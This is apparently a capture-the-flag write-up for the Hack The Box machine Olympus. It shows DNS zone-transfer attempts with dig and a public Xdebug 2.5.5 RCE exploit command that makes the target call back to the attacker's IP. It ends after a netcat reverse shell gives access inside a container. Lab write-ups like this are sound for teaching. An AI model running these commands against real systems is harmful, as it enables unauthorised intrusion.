 ## HTB Olympus (Medium) - Writeup

Difficulty: Medium

Olympus was a well-designed box involving DNS exploitation and Wi-Fi cracking, with containerization playing a key role throughout the journey.  
Privilege escalation was achieved through a misconfiguration, making for a solid and enjoyable challenge.  
---

## Nmap 

#### The nmap scan revealed three open and one filtered port:

![obraz](https://github.com/user-attachments/assets/981edf0e-18d3-4d26-9ee1-a08c7fdad02c)




## Port 53 - DNS

We can try to look for hidden domain names with dig command:  
```
dig axfr @10.10.10.83 olympus.htb
dig @10.10.10.83 olympus.htb
```
![obraz](https://github.com/user-attachments/assets/b225b181-6a1f-423a-9784-0f70a2b06b59)

Domain name olympus.htb was just my guess based on HTB naming convention.  




## Port 80 - Website 

![obraz](https://github.com/user-attachments/assets/1c397e3e-bf48-4433-84ee-1aa3c1c3ed14)

It doesn't contain anything intresting, also feroxbuster didn't found anything.  

Let's take a look at the http response headers.  

![obraz](https://github.com/user-attachments/assets/712a3f78-565e-49db-8cca-12f3a595903d)

Xdebug looks promising, lets research it a bit.  
It turns out that xdebug is a php tool and 2.5.5 is a version.   

After a quick search I found an RCE exploit for this tool.  
```
https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py
```

Let's try to get basic code execution with it:  
```
python3 exp.py -t http://10.10.10.83/index.php -c 'shell_exec("id");' --dbgp-ip 10.10.14.14
```
![obraz](https://github.com/user-attachments/assets/f180588b-d66d-4cd5-9865-bfa444900d88)

It worked, now we can try to get a shell access, I'll try netcat shell first.  
We will start netcat listener on port 9005 and run:  

![obraz](https://github.com/user-attachments/assets/2ae2d5d6-6800-4ffa-bd86-23fbeb33efd9)

We were lucky, it turned out that our target had netcat with -e option installed which led to initial access.  

![obraz](https://github.com/user-attachments/assets/fc520114-fb0f-42b9-b3c2-25cc7ec499d0)

After a quick enumeration we see that it is likely a container, hostname is weird, and ip differs from the original one.  
Also python is not installed meaning we can't upgrade a terminal.  

































